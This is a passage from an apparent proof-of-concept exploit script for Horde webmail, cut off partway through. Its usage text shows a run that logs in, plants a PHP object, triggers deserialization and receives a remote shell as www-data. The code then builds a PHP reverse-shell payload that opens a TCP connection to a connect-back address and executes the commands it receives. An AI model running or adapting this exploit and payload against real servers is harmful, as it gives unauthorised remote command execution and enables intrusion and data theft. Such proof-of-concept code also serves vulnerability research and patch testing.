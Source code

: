     Example:
    ========

    saturn:~ mr_me$ ./poc.py
    (+) usage ./poc.py <target> <path> <user:pass> <connectback:port>
    (+) eg: ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337

    saturn:~ mr_me$ ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337
    (+) targeting http://172.16.175.145/horde/
    (+) obtained session iefankvohbl8og0mtaadm3efb6
    (+) inserted our php object
    (+) triggering deserialization...
    (+) starting handler on port 1337
    (+) connection from 172.16.175.145
    (+) pop thy shell!
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    pwd
    /var/www/horde/services
    uname -a
    Linux target 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
    exit
    *** Connection closed by remote host ***
    (+) repaired the target!
    """


    import re
    import sys
    import socket
    import requests
    import telnetlib
    import base64
    from threading import Thread

    def rs(cbh, cbp):
        return """@error_reporting(-1);
    @set_time_limit(0); 
    @ignore_user_abort(1);
    $dis=@ini_get('disable_functions');
    if(!empty($dis)){
        $dis=preg_replace('/[, ]+/', ',', $dis);
        $dis=explode(',', $dis);
        $dis=array_map('trim', $dis);
    }else{
        $dis=array();
    }
    $ipaddr='%s';
    $port=%d;
    function PtdSlhY($c){
        global $dis; 
        if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {
            $c=$c." 2>&1\\n";
        }
        ob_start();
        system($c);
        $o=ob_get_contents();
        ob_end_clean();
        if (strlen($o) === 0){
            $o = "NULL";
        }
        return $o;
    }
    $nofuncs='no exec functions';
    $s=@fsockopen("tcp://$ipaddr",$port);
    while($c=fread($s,2048)){